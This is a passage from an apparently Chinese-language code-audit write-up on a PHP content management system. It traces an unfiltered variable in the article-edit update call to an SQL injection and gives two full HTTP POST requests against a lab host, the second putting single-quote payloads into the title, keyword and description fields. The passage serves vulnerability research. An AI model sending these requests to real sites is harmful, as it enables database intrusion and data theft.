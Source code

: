 修改文章：  

```
$a = M($w\['molds'\])->update(\['id'=>$this->frparam('id')\],$w);
```

由于这里`$w`变量是直接接收前面的值，不存在过滤，所以同样也会造成 sql 注入。利用 post 数据包：

```
POST /user/release.html HTTP/1.1
Host: 192.168.0.111
Content-Length: 136
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111/user/release.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=or47icmjn28rlqojj35trmgik3
Connection: close

id=&isshow=&molds=article&tid=2&title=1&keywords=1&litpic=&file\_litpic=&description=1&submit=%E6%8F%90%E4%BA%A4&body=%3Cp%3E1%3C%2Fp%3E
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5Vicjsic7IIRMOYsxaW90JP0C9NGcFicolQXq2R82UYXjgHCHAIsfGPYM5kcGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5VicjsN7A1OvQFMaNJTGmcBrsJBYCiajjOGhD0JRnP6x6u4hZ4HJtVzZ6cGFw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ6juEUFVCyZBbuk8p5VicjsiaeFMaxss9FWfcxK05iaKmlV6dx3KamMqFnbf9Q5Mh8ZRicdBwtWALeaQ/640?wx_fmt=png)

**Post 数据包 2:**  

```
POST /user/release/id/57/molds/article.html HTTP/1.1
Host: 192.168.0.111
Content-Length: 231
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111/user/release/id/57/molds/article.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=or47icmjn28rlqojj35trmgik3
Connection: close

id=57&isshow=0&tid=2&title=1%27&keywords=1%27'&litpic=&file\_litpic=&description=1%27&submit=%E6%8F%90%E4%BA%A4&body=%3Cp%3E1%26%2339%3B%3C%2Fp%3E
```
